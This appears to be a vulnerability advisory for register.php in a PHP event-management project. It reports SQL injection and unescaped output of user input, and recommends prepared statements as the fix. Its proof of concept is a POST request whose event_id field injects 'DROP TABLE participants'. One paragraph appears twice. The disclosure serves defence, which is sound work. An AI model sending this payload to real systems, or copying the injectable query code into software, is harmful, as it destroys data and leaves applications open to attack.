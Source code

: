 # Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.


## Proof of Concept (PoC):

SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:

POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost
...
event_id=1'; DROP TABLE participants; --

This could result in a SQL query like:



INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')


To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.


Vulnerable code section:

$event_id = $_POST['event_id'];
$mobile = $_POST['mobile'];
$name = "/^[a-zA-Z ]+$/";
$emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
$number = "/^[0-9]+$/";

...

if(!preg_match($number,$mobile)){
    // Vulnerable to bypass using non-numeric characters
    echo "<div class='alert alert-warning'>
            <a href='#' class='close' data-dismiss='alert' aria-label='close'>&times;</a>
            <b>Mobile number $mobile is not valid</b>
          </div>";
    exit();
}



